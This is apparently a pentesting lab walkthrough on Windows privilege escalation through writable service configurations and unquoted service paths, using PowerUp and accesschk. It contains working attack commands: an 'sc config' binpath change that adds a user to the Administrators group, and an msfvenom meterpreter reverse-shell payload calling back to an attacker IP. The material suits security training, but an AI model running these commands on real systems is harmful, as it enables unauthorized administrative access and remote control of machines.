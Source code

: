 # 🛀 Service Permissions (Paths)

### Definitions

* **Service Path**: When Windows starts up or runs certain programs, it often uses "services" to do so. Each service has a specific path that tells Windows where to find the program it needs to run.
* **Quoted vs. Unquoted**: If the service path is "quoted" (enclosed in quotation marks), it tells Windows exactly where to find the program, even if there are spaces in the path. For example: `"C:\Program Files\My Service\service.exe"`. If the service path is "unquoted" (not enclosed in quotation marks), Windows might get confused about where the program is located if there are spaces in the path. For example: `C:\Program Files\My Service\service.exe`.

### Escalation via Binary Paths <a href="#lecture_heading" id="lecture_heading"></a>

first open this file in a cmd and type:

<figure><img src="../../../../.gitbook/assets/image (615).png" alt=""><figcaption></figcaption></figure>

```
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

1. `powershell -ep bypass`: This command starts a PowerShell session with the execution policy set to bypass. The `-ep` parameter stands for "ExecutionPolicy" and allows you to specify the execution policy for the PowerShell session. Setting it to "bypass" allows scripts to run without any restrictions. This is often used when running scripts that may be blocked by more restrictive execution policies.
2. `. .\PowerUp.ps1`: This command executes a PowerShell script named "PowerUp.ps1" located in the current directory. The `.\` prefix specifies the current directory, and the `.` followed by a space before the script filename indicates that the script should be executed in the current session (rather than in a new session). This is known as "dot-sourcing" a script, which means the script's contents are executed within the current scope rather than in a separate scope.
3. `Invoke-AllChecks`: This command invokes a function or cmdlet named "Invoke-AllChecks". This command is likely a part of the "PowerUp.ps1" script that was dot-sourced in the previous step. The purpose of this command is to trigger the execution of a series of checks or tests within the script. These checks could be related to system configuration, security vulnerabilities, or other aspects of the system that the script is designed to assess.

This is very automatic, in a more manual way, you can cd to this directory:

```
cd \Desktop\Tools\Accesschk
accesschk64.exe -uwcv Everyone *
```

1. **accesschk64.exe**: This is an executable file, specifically for 64-bit Windows systems, that is part of the Sysinternals suite of tools developed by Microsoft. The `accesschk` tool is used to view the effective permissions for files, directories, registry keys, or other securable objects in Windows. In this case, `accesschk64.exe` specifically refers to the 64-bit version of the `accesschk` tool.
2. **-uwcv**: These are command-line options or switches that modify the behavior of the `accesschk64.exe` tool. Here's what each of them does:
   * `-u`: Specifies that the output should display user account names associated with the permissions but no errors, just positive finds.
   * `-w`: Specifies that the output should display only objects for which the specified user has write access.
   * `-c`: Specifies that the output should include containers, such as directories or registry keys, in addition to objects directly specified.
   * `-v`: Specifies that the output should be verbose, providing additional information about the permissions.
3. **Everyone**: This is a placeholder representing the user or group whose permissions are being checked. In this case, it refers to the "Everyone" group, which includes all user accounts, even those without explicit permission.
4. **\***: This wildcard character is used to specify the resource or object for which permissions are being checked. When used with `accesschk`, it typically means to check permissions for all objects that match the specified criteria. In this context, `*` could refer to all files, directories, registry keys, or other securable objects in the system.

<figure><img src="../../../../.gitbook/assets/image (616).png" alt=""><figcaption><p>Manual method</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (617).png" alt=""><figcaption><p>Automatic method</p></figcaption></figure>

We can also see that we can restart the service, very important! We could add something malicious and then restart it to gain more privileges, for example.

Now we're goinf to run access check on the service itself to try and get more informations about what's happening

```
accesschk64.exe -wuvc daclsvc
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (12).png" alt=""><figcaption></figcaption></figure>

we got read write for everyone as we can see

since we are part of the `everyone` groupe; we put it in our previous command, but we could've put in any group. Good thing to note is the `change_config` service that we can modify&#x20;

```
sc qc daclsvc
```

1. **sc**: This is the Service Control command-line utility in Windows. It allows you to communicate with the Service Control Manager and services.
2. **qc**: This is an abbreviation for "queryconfig". It instructs `sc` to display the configuration information for the specified service.
3. **daclsvc**: This is the name of the service for which you want to query the configuration information. In this case, it refers to a service named "daclsvc". Services in Windows are background processes that can be automatically started when the system boots or on demand.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (2).png" alt=""><figcaption></figcaption></figure>

We can see the binary path name, but since we have change\_config enabled we can modify this

```
sc config daclsvc binpath= "net localgroup administrators user /add"
```

and you can see that if we start daclsvc, we can see some changes:

```
net localgroup administrators
sc start daclsvc
net localgroup administrators 
```

<figure><img src="../../../../.gitbook/assets/2024-03-19_14-49.png" alt=""><figcaption></figcaption></figure>

So we're now in the Administrators group

### &#x20; Escalation via Unquoted Service Paths <a href="#lecture_heading" id="lecture_heading"></a>

<figure><img src="../../../../.gitbook/assets/image (1096).png" alt=""><figcaption></figcaption></figure>

An attacker can exploit an unquoted service path by creating a malicious program with a name that Windows might mistakenly run instead of the intended service. For example, if the path is unquoted, Windows might interpret `C:\Program Files\My Service\service.exe` as trying to run a program at `C:\Program.exe` or `C:\Program Files\My.exe` instead of the correct `service.exe`.

So after running PowerUp and starting the InvokeAllchecks command, we search for the unquoted path section:

<figure><img src="../../../../.gitbook/assets/image (1097).png" alt=""><figcaption></figcaption></figure>

So we can see the service _**Unquotedsvc**_ that has an unquoted service path with many spaces.

Now we are going to look at the service more in depth with the Registry Editor (regedit). It provides a tree structure that users can navigate to find specific keys and values. These keys and values are organized in a manner similar to folders and files on a hard drive.

It's good to know that the Windows Registry is a hierarchical database that stores low-level settings for the operating system and for applications that opt to use the registry.

The registry contains configuration settings for the operating system, hardware devices, user preferences, and installed software. Editing the registry can change how Windows or certain applications behave.

So let's look for unquotedsvc in the registry editor:

<figure><img src="../../../../.gitbook/assets/image (1098).png" alt=""><figcaption></figcaption></figure>

So what this means is, when the unquotedsvc service will start, it will load all those file from start to bottom

What could happen here would be that Windows can misinterpret the path and try to execute a different executable than the intended one. Here are the possible interpretations:

* `C:\Program.exe`
* `C:\Program Files\My.exe`
* `C:\Program Files\My Service\service.exe` (the intended executable)

So now we are going to craft our payload, send it to the target and execute it:

craft the payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.54.172 LPORT=5454 -f exe -o common.exe
```

host and transfer the payload:

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And of course we are going to save it in the unquoted service path:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So after launching our netcat listener on the port we listed on our msfconsole payload, we're going to restart the unquotedsvc service and look what happens:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And just like that we got our shell!!
